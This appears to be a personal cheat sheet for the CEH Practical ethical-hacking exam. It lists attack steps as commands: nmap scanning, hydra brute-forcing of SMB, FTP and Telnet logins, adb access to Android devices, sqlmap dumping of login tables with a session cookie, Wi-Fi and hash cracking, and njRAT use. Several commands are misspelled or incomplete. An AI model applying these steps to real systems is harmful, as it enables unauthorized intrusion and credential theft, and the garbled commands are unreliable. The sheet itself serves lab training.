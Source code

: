 # CEH PRACTICAL
# 1 FQDN
* nmap -p389 -sV (subnet) -Pn
           OR
* nmap -A <subnet> -Pn

# 2 WAMP SERVER
* nmap -A -sV -p 80,8080,443 (subnet)

# 3 SMB 
* nmap -p 445 (subnet)
* hydra -l Henry -P (password.txt file on desktop) (ip) smb
* smbclient -L ip -p 1445 -U Henry
* smbclient -L //ip/Home -p 1445 -U Henry
* get (file name) password same as Henry
* if file contains hash decode it

# 4 Android
* namp -p 5555 (subnet) -Pn
* adb connect (ip):5555
* adb shell
* ls (find the folder scan)
* after finding scan coppy rhe directory
* exit
* adb pull (paste the directory)(be a root user)
* cd Scan
* ls
* ent (file1)
* ent (file2)
* ent (file3)
* sha384sum (file with highest ent)

# 5 SEVERITY
* nmap -Pn --script vuln (ip)
* CVE check on google nvd.nist.gov

# 6 REMOTE LOGIN SENSITIVE FILE
* nmamp (subnet) -Pn
* ( find ip with FTP or Telnet)
* hydra -L (username.txt) -P (password.txt) (ip) telnet
                          OR
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* telnet (ip)
     OR
* ftp (ip)
* ls
* get NetworkPass.txt

# 7  STEGNOGRAPHY
* login into given machine
* open openstego
* extract data
* output on desktop
* password "imagination"

# 8 FTP
* nmamp (subnet) -Pn
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* ftp (ip)
* ls
* get Credential.txt
* cat Credential.txt

# 9 PRIVILEGE ESCALATION
* 

# 10 ENTRYPOINT ADRDRESS
* login into ggiven machine
* open DIE (detect it easy)
* open the given file in DIE
* File Info option

# 11 DDOS 
* open the file in wireshark
* statistics option
* IP v4 statistics
* Source and Destination
* tcp.flags.syn == 1 and tcp.flags.ack == 0

# 12 SQL injection PASSWORD
* login in website
* view profile tab and note the url
* inspect
* console type (document.cookie)
* terminal
* be a root user
* sqlmap -u "(url)" --cookie="(cookie val)" --dbbs
* yes for all
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) --tables
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) -T (longin table) --dump

# 13 

# 14

# 15

# 16 HASH,DVWA
* login with credentials
* go to file and download
* open the file coppy hash and paste in hashes.com or crackstation.com

# 17 IOT TRAFFIC
* open the file in wireshark
* mqtt (in the filter option) 
* click on publish message
* mqtt protocol

# 18 WIFI
* aircrack-ng -w(password file directory) (file directory) 

# 19 njRAT
* open njRAT 
* search and download the file

# 20 
